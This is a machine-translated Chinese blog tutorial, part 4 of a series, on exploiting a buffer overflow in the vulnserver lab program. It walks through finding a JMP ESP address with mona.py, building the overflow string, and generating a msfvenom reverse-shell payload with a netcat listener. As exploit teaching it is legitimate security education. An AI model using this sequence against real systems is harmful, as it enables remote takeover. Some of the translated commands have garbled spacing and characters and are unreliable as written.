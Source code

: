 # 缓冲区溢出教程(第 4 部分)

> 原文：<https://blog.devgenius.io/buffer-overflow-tutorial-part4-1e80e90a2f03?source=collection_archive---------5----------------------->

![](img/9ecf2131d8ac4251c66c30c182e90282.png)

安加德·辛格·www.officialhacker.com

# 8 —寻找合适的模块

当我们谈论找到正确的模块时，我们说的是—我们正在搜索一个*“dll”*文件或程序中没有内存保护的类似文件。即使没有真正的方法来利用应用程序进行批判性思维，我们也可以使用*“Mona . py”*模块来为 Immunity Debugger 自动执行这些烦人的逐字节比较。您可以从以下 GitHub 页面下载*【Mona . py】*文件:*[*https://github.com/corelan/mona*](https://github.com/corelan/mona)*。”**

*提取文件并将 *"Mona.py"* 复制到*" C:\ Program Files \ Immunity Inc \ Immunity Debugger \ py commands。"*文件夹*。**

*![](img/b7b92fe1a346a84c128d90d956881c7b.png)*

*将文件复制到*“py commands”*文件夹后，可以调用它，并列出免疫调试器中的所有模块。在列出模块之前，确保*“vulnserver”*正在运行并连接到调试器。然后，从免疫调试器使用搜索字段键入*"！莫娜模块"*并敲击*"回车."**

*![](img/f760b91c694cda506df2cd926b8f1a81.png)*

*它将显示所有模块及其保护设置。这里我们需要查找一个附加到*“vulnserver”*并且所有保护设置都为*“False”的文件*在本例中，我们发现 *"essfunc.dll"* 的所有内容都设置为 false。*

*![](img/3edd0938c7326c1e714b6b7abf61fba2.png)*

*接下来，我们应该找到一个与*“JMP”*(跳转命令)等价的操作码。为此，我们需要从 Kali Linux 终端*使用 *"nasm_shell.rb"* 脚本。**

****Ex:****(****root @ kali****:~ #/usr/share/metasploit-framework/tools/exploit/nasm _ shell . Rb)。**

*在这里，我们试图将汇编语言转换成十六进制代码，并找到跳转命令*“JMP ESP”的等效代码**【JMP ESP】*指令，它让我们通过*【EIP】*控制程序执行，并降落到我们的用户控制空间，其中将包含我们的外壳代码。在*“nasm _ shell”*中输入*“JMP ESP”*，点击*“回车”*然后记下跳转命令的十六进制代码，即*“FFE 4”。**

*![](img/6e70ed9229608a0856f24886f3ec4f25.png)*

*现在，我们需要使用 Mona 的这个信息(FFE4)来查找使用(essfunc.dll)模块的跳转命令的返回地址。为此，请键入*"！mona 在免疫调试器的搜索字段中查找-s "\xff\xe4" -m essfunc.dll"* 。*

*![](img/3c954b49b73009446367c54610929827.png)*

*当你点击*“回车”，*它会显示回邮地址。我们需要做笔记并记下其中一个地址，以便稍后在 python 脚本中使用。在这个例子中，我们将注意到第一个地址，即*“625011 af”。**

*现在，我们可以修改我们的 python 脚本，并在指定( *"A"* * 2003)缓冲字符后，以相反的顺序( *"\xaf\x11\x50\x62"* )添加我们记录的返回地址。*

*![](img/f41ed7dc716bf6bc3e0135aa22148ce9.png)*

*在 2003 字节的初始缓冲区之后，将*“JMP ESP”*的内存地址添加到我们的脚本中，我们可以覆盖*“EIP”*在运行这个脚本之前，让我们在*“JMP ESP”*指令处设置一个断点，这样我们可以在提交输入后手动单步执行指令。为此，单击调试器中的蓝色箭头图标，并键入我们之前提到的返回地址值。*

*![](img/7e1abc286ea75baaa4b333e253e200dd.png)*

*一旦你点击*“OK”*按钮，它将定位特定的跳转代码并显示在屏幕顶部。要设置断点，突出显示地址并点击*“F2”*或双击地址的十六进制值。*

*![](img/02de0de5487a9e0bafeec1c09cb40dd8.png)*

*设置好一切后，运行 python 脚本并分析更改。*

*![](img/624e30a2672605d0d18e5b6e67c59072.png)*

*所以，这里发生的事情是，当我们到达断点时，程序已经停止，并且*“EIP”*已经被我们在 python 脚本中指定的值覆盖。这意味着我们完全控制了*【EIP】*，并且可以运行任何外壳代码来危害我们的目标机器。*

# *9-生成外壳代码并获得访问权限*

*在漏洞开发过程的这个阶段，是时候生成外壳代码了。在这个例子中，我们将使用 msfvenom 创建一个反向 shell 负载。Msfvenom 是有效载荷生成和编码的组合。要创建 shellcode 我们需要执行以下命令:*(****root @ kali****:~ # MSF venom—platform Windows-p Windows/shell _ reverse _ TCP LHOST = 10 . 10 . 10 . 15 LPORT = 4444 exit func = thread-f c-a x86-b " \ x00 ")。*我们来分解一下，分析一下命令。首先，我们调用该工具，然后使用*-p "*操作符指定 Windows 操作系统的有效负载(*Windows/shell _ reverse _ TCP*)。接下来，我们提供了攻击者机器的 IP 地址( *LHOST* )和端口号( *LPORT* )来监听传入的连接。然后我们使用了 *"EXITFUNC=thread"* 命令来使漏洞利用更加稳定(这是可选的)。我们希望将所有内容导出到 C 文件类型中，所以我们指定了*-f "*操作符。接下来，我们使用*-b "*选项提供了目标机器的架构*-a x86 "*和一个坏角色。*

*![](img/a2975d571c724c7f578a53e1f2106c92.png)*

*一旦你点击*“回车”，*就会产生一个有效载荷。我们需要复制并在我们的 python 脚本中使用它。*

*用任何文本编辑器打开 python 脚本，声明一个像*【溢出】*或任何你喜欢的变量，然后粘贴有效负载。*

*接下来，我们必须通过提供几个( *"\x90"* 无操作)填充*，将有效载荷的这个变量添加到*"外壳代码"*变量中。**

****Ex:****(shellcode = " A " * 2003+" \ xaf \ X11 \ x50 \ x62 "+" \ x90 " * 32+溢出)。**

*我们使用这种类型的填充来确保 jump 命令和我们的有效载荷之间没有干扰。*

*![](img/63edabc24bdb81902d705e1aca4d0820.png)*

*完成所有工作后，保存脚本并在目标机器上运行它。在执行脚本之前，确保*“vulnserver”*软件在目标机器上以管理员身份运行。*

*![](img/a3a6ed8b9024a1d49901e06f73943372.png)*

*最后，我们可以启动一个 Netcat 监听器来捕获反向 shell 连接，并通过执行我们创建的 python 脚本将我们的漏洞利用缓冲区发送给应用程序。*

****Ex:****(****root @ kali****:~ # NC-nvlp 4444)。**

*![](img/15d00b5ffe2179214a1775df20ca71ee.png)*

*正如您在上面的截图中看到的，一旦 python 脚本被执行，您将接收到反向 shell 连接，并将完全控制目标机器。*

*[缓冲区溢出教程(第一部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part1-efc6b9f3e4ee)*

*[缓冲区溢出教程(第二部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part2-c21c6de5c11c)*

*[缓冲区溢出教程(第三部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part3-98ab394073e3)*

*[缓冲区溢出教程(第四部分)](https://medium.com/dev-genius/buffer-overflow-tutorial-part4-1e80e90a2f03)*